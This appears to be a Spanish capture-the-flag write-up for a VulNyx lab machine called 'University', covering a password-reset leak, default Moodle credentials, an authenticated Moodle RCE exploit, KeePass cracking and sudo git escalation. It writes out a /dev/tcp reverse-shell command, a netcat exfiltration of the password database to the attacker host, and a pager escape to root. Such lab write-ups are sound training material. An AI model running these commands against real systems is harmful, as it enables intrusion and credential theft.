## Introducción
El día de hoy resolveremos la máquina **University** de VulNyx. Se trata de una máquina Linux de dificultad media que aborda los siguientes conceptos:

- Password Reset Information Disclosure
- Moodle CVE-2024-43425 (Authenticated RCE)
- KeePass Database Cracking
- Sudo Privilege Escalation via Git

## Resolución

# Reconocimiento

Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:
```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 192.168.1.135 -oN ports.txt
```
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:33:d4:c7:be:3a:d7:10:48:bb:d7:68:93:63:30:b4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNYy0tA0tPOd8rRIzfCyGObmkPkhtB59eSQuVEj4I+vP34xHq/CNE7T+ZGqMJEnjCxezW2Ad4khcREeach8usog=
|   256 2a:85:0d:10:a5:76:aa:e2:b2:1a:8c:38:17:ae:62:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID+AJMZkqcAclh/iC3uxZfknF2MBnUowFKJg70PW2QTM
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: University | Shaping the Future
MAC Address: 08:00:27:34:C3:51 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

Identificamos dos puertos abiertos: SSH (22) y HTTP (80). El sistema está ejecutando Ubuntu Linux con servidor web Apache.

### Puerto 80 - HTTP

Al acceder al puerto 80, encontramos una página web de universidad con contenido estático que no ofrece mucha interacción:


Procedemos a enumerar directorios utilizando `gobuster`:
```bash
gobuster dir -u http://192.168.1.135/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

La enumeración revela dos directorios interesantes:
```bash
/administration       (Status: 301) [Size: 323] [--> http://192.168.1.135/administration/]
/moodle               (Status: 301) [Size: 315] [--> http://192.168.1.135/moodle/]
```

### Directorio /administration

Al acceder al directorio `/administration`, encontramos un panel de autenticación:



Intentamos varios payloads de inyección SQL sin éxito. Sin embargo, notamos un botón de "Forgot Password". Al hacer clic en él, se nos informa que una nueva contraseña será enviada al correo electrónico del usuario:



# Explotación

### Password Reset Information Disclosure

Al probar la funcionalidad de restablecimiento de contraseña con un nombre de usuario de prueba, la aplicación responde con un mensaje genérico de éxito: "If the user exists, an email has been sent with a new password."



Sin embargo, al intentar el restablecimiento con el nombre de usuario `admin`, la aplicación filtra información sensible a través de la respuesta de la API. La respuesta incluye campos adicionales:



La respuesta revela:
- **user**: `admin`
- **generate_recovery_password**: Una contraseña aleatoria recién generada

Usando estas credenciales (`admin` y la contraseña filtrada), nos autenticamos exitosamente en el panel de administración:



### Descubrimiento de Credenciales por Defecto

En la sección "News", descubrimos un mensaje crítico del desarrollador:

> "The developer has provided the following default credentials to the moodle. These credentials must be changed on the first login."

El mensaje lista cinco usuarios con credenciales por defecto e incluye una advertencia adicional:

> "More professors will be added progressively. All users are required to change their password immediately after first login."



Las credenciales divulgadas son:
- albert.einstein / Einstein#Relativity42
- marie.curie / Curie#Radioactive88
- isaac.newton / Newton#Gravity1687
- richard.feynman / Feynman#Quantum26
- nikola.tesla / Tesla#Current1856

### Autenticación en Moodle

Navegamos al directorio `/moodle` descubierto previamente e intentamos autenticarnos con las credenciales filtradas:



La mayoría de usuarios ya han cambiado sus contraseñas, pero una cuenta permanece vulnerable:

**richard.feynman / Feynman#Quantum26**

Nos autenticamos exitosamente con estas credenciales:



### Enumeración de la Versión de Moodle

Para identificar posibles exploits, enumeramos la versión de Moodle accediendo a `/lib/upgrade.txt`:



La versión se identifica como **Moodle 4.4.1**, la cual es vulnerable a **CVE-2024-43425** - una vulnerabilidad de Ejecución Remota de Código Autenticada.

Localizamos un exploit público en ExploitDB: https://www.exploit-db.com/exploits/52350

### Configuración del Exploit

El exploit requiere los siguientes parámetros:
- `--url`: La URL de instalación de Moodle
- `--username`: Nombre de usuario válido de Moodle
- `--password`: Contraseña válida de Moodle
- `--courseid`: ID del curso al que el usuario tiene acceso
- `--cmid`: Course Module ID (Quiz ID)
- `--cmd`: Comando a ejecutar

**Obteniendo el Course ID:**

Accedemos al curso de Richard Feynman y extraemos el ID del curso de la URL. En este caso, el course ID es `3`:



**Obteniendo el Course Module ID (cmid):**

Habilitamos el modo de edición en Moodle y creamos un nuevo quiz:



Después de crear el quiz, accedemos a él y extraemos el ID del módulo de la URL. En este caso, el cmid es `10`:



### Remote Code Execution

Verificamos la vulnerabilidad ejecutando un comando simple:
```bash
python3 exploit.py --url http://192.168.1.135/moodle/ --username richard.feynman --password Feynman#Quantum26 --courseid 3 --cmid 10 --cmd id
```

El comando se ejecuta exitosamente, confirmando el RCE:



Establecemos una reverse shell ejecutando:
```bash
python3 exploit.py --url http://192.168.1.135/moodle/ --username richard.feynman --password Feynman#Quantum26 --courseid 3 --cmid 10 --cmd "bash -c 'bash -i >&/dev/tcp/192.168.1.166/4444 0>&1'"
```

Antes de ejecutar el exploit, configuramos un listener de netcat en nuestra máquina atacante:
```bash
nc -lvnp 4444
```

Recibimos exitosamente una reverse shell como el usuario `www-data`:



# Escalada de Privilegios - www-data a marcos

### KeePass Database Discovery

Durante la enumeración del sistema de archivos, descubrimos un archivo de base de datos KeePass en el directorio `/opt`:
```bash
ls -la /opt/
```

Encontramos un archivo llamado `passwords.kdbx`. Las bases de datos KeePass están protegidas con contraseña, por lo que necesitamos crackear la contraseña maestra para acceder a las credenciales almacenadas.

Transferimos la base de datos a nuestra máquina atacante utilizando uno de los siguientes métodos:

**Método 1 - Usando netcat:**

En la máquina atacante:
```bash
nc -lvnp 5555 > passwords.kdbx
```

En la máquina víctima:
```bash
nc 192.168.1.166 5555 < /opt/passwords.kdbx
```

**Método 2 - Usando servidor HTTP de Python:**

En la máquina víctima:
```bash
cd /opt
python3 -m http.server 8000
```

En la máquina atacante:
```bash
wget http://192.168.1.135:8000/passwords.kdbx
```

### Cracking the KeePass Database

Utilizamos la herramienta `keepass4brute` para crackear la contraseña maestra: https://github.com/r3nt0n/keepass4brute
```bash
./keepass4brute.sh passwords.kdbx /usr/share/wordlists/rockyou.txt
```

Alternativamente, podemos usar `keepass2john` y `john`:
```bash
keepass2john passwords.kdbx > keepass.hash
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
```

La contraseña se crackea exitosamente: **ashley**



### Accediendo a la Base de Datos KeePass

Abrimos la base de datos usando `keepassxc` en nuestra máquina local con la contraseña crackeada:
```bash
keepassxc passwords.kdbx
```

Dentro de la base de datos, descubrimos credenciales SSH para el usuario `marcos`:



**Credenciales descubiertas:**
- Username: `marcos`
- Password: `3D852sW1as3b!`

Nos conectamos vía SSH:
```bash
ssh marcos@192.168.1.135
```

La flag de usuario se encuentra en el directorio home de marcos:
```bash
cat ~/user.txt
```

# Escalada de Privilegios - marcos a root

### Enumeración de Privilegios Sudo

Verificamos los permisos sudo de marcos:
```bash
sudo -l
```

Salida:
```bash
Matching Defaults entries for marcos on university:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User marcos may run the following commands on university:
    (root) NOPASSWD: /usr/bin/git
```

El usuario `marcos` puede ejecutar `/usr/bin/git` como root sin contraseña. Este es un vector de escalada de privilegios bien conocido.

### Git Privilege Escalation

Según GTFOBins (https://gtfobins.github.io/gtfobins/git/), git puede ser explotado para generar una shell de root cuando invoca un pager para comandos de ayuda.

Explotamos esto ejecutando:
```bash
sudo git branch --help config
```

Este comando muestra un manual de ayuda usando un pager (típicamente `less`). Dentro del pager, podemos ejecutar comandos:



Escribimos lo siguiente en el pager para generar una shell de root:
```bash
!/bin/sh
```

Obtenemos exitosamente una shell de root:
```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

La flag de root se encuentra en el directorio home del usuario root:
```bash
cat /root/root.txt
```

¡Ya somos root! 🎉